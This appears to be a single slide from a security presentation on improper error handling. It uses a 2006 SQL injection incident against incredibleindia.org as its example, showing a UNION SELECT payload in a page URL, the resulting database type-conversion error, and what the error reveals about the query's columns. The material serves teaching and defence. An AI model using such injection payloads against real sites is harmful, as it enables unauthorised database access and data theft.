

# Improper Error Handling

IncredibleIndia.org SQL Injection (WHID 2006-27)

Trial 4:
http://www.incredibleindia.org/newsite/cms_Page.asp?PageID=828 union select 'varchar1', 'varchar2', 'varchar3' from mncpage --

Error:
Syntax error converting the varchar value 'varchar1' to a column of data type int.

Conclusion:
The 1st column in the select query is an integer.